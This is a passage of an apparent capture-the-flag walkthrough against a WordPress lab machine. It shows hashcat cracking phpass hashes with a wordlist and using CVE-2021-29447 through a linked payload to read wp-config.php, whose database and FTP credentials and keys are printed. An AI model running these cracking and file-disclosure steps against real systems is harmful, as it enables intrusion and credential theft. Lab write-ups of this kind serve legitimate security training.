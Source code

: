 Nice, with this we now have the hashed credentials of both accounts so let's crack them. Also, note these hashes are phppass, you can search for hash types [here](https://hashcat.net/wiki/doku.php?id=example_hashes)


```shell
hashcat -m 400 hashadmin ~/wordlist/rockyou.txt
...
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
...

hashcat -m 400 hashmanager ~/wordlist/rockyou.txt
Hashfile 'hashmanager' on line 1 ($P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70): Token length exception
```

As I expected the admin hash "can't" be cracked and the manager one gave an error, that's because the character `\` is used to escape other characters but we don't need it now so delete and try again

```shell
hashcat -m 400 hashmanager ~/wordlist/rockyou.txt --show
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```

Ok password found, let's login to the wordpress site to see if we can exploit any of the earlier mentioned vulnerabilities. Well, we can't use the second exploit since we can't create a new post but we can exploit the first one because we can upload media files. Honestly, the payload in the wordpress page didn't work for me however [this one](https://github.com/AssassinUKG/CVE-2021-29447) did.

With this method, I was able to get the wp-config file which had exciting information

```
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
```